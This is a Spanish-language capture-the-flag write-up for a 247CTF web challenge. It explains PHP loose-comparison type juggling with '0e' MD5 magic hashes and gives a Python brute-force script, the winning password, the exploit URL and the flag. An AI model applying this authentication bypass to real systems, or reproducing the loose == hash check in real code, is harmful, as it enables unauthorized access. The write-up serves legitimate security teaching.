


# <ins>Compare the Pair</ins>

## CATEGORÍA: Web

### PRESENTACIÓN DEL PROBLEMA:
> **Desafío:**  
> Can you identify a way to bypass our login logic?  
> MD5 is supposed to be a one-way function, right?




---
### **PASO A PASO DEL PROCESO:**

### Paso 1: Examinar el código fuente 🔍


```php
<?php
  require_once('flag.php');
  $password_hash = "0e902564435691274142490923013038";
  $salt = "f789bbc328a3d1a3";
  if(isset($_GET['password']) && md5($salt . $_GET['password']) == $password_hash){
    echo $flag;
  }
  echo highlight_file(__FILE__, true);
?>
```

```php
Importación de la flag 
require_once('flag.php'); 
Este archivo externo contiene la variable $flag, que se imprime si se cumple la condición del if.
```

```php 
Variables importantes
$password_hash = "0e902564435691274142490923013038";   
$salt = "f789bbc328a3d1a3";
Ambas son cadenas generadas con MD5. `password_hash` es el valor que se quiere igualar, y `salt` es una cadena fija que se le agrega a la contraseña del usuario antes de hacer el hash, para que no se pueda adivinar fácilmente el valor original.     
```
```php
Validacion de usuario
  if(isset($_GET['password']) && md5($salt . $_GET['password']) == $password_hash){
    echo $flag;
  }
  El script verifica si se pasó el parámetro password por GET, y luego compara el resultado de md5($salt . $_GET['password']) con el hash almacenado.
```

#### ⚠️ Observación importante: Comparación débil en PHP (`==`)
```php 
md5($salt . $_GET['password']) == $password_hash
```
La validación se hace con el operador ==, lo cual genera una comparación débil.
En PHP, este tipo de comparación permite que dos valores diferentes se consideren iguales si son equivalentes como números. Esto se presta a una vulnerabilidad llamada type juggling.

Ejemplo: "0e12345" == "0e67941" eso lo hace TRUE cuando sabemos que no es cierto.

Esto ocurre porque PHP las interpreta como:
0 * 10^1234567 == 0 * 10^7654321

Es decir, ambas son igual a cero numéricamente, por lo tanto PHP considera que son iguales aunque no lo sean como texto.

Esto se convierte en una vulnerabilidad explotable.

---
### Paso 2: Explotar esa vulnerabilidad 🧨

Para explotar esta vulneabilidad, utilzaremos un script en python el cual busca encontrar un "magic hash" del tipo "0eXXXXXXXX...", que PHP interpretaría erróneamente como el número 0 debido a su comparación débil (==).

```php
import hashlib  # Importa la librería para generar hashes MD5

# Salt fijo, igual que en el código PHP vulnerable
salt = "f789bbc328a3d1a3"

i = 0  # Inicializa el contador que representará el input a probar

# Bucle infinito: seguirá buscando hasta encontrar un hash "mágico"
while True:
    # Concatena el salt con el valor actual de i para formar el "password"
    password = salt + str(i)

    # Calcula el hash MD5 de esa cadena
    new_hash = hashlib.md5(password.encode()).hexdigest()

    # Verifica si el hash comienza con "0e" y el resto son solo dígitos
    # Esto lo convierte en un "magic hash" que PHP interpretará como float 0
    if new_hash.startswith("0e") and new_hash[2:].isdigit():
        # Si se cumple la condición, imprime el valor encontrado y su hash
        print(f"¡Encontrado! input: {i}")
        print(f"Hash: {new_hash}")
        break  # Sale del bucle porque ya encontró un hash válido

    # Si no se cumple, incrementa el contador y prueba con el siguiente valor
    i += 1

#demora aporximadamente un minuto
```

#### Resultado del script:

¡Encontrado! input: 237701818

Hash: 0e668271403484922599527929534016

---
### Paso 3: Solucion del ejercicio ✅
Al final de tu URL colocar  /?password=237701818

Quedaria asi:

`https://e9700f3e5987501a.247ctf.com/?password=237701818`

Una vez escrito y al presionar la tecla Enter, la página se recargará y se podrá visualizar la flag.



--- 
### Flag 🏳️

Se identifica la flag como: 247CTF{76fbce3909b3129536bb396fea3a9879}


**Autor: Rodrigo Cardinal**


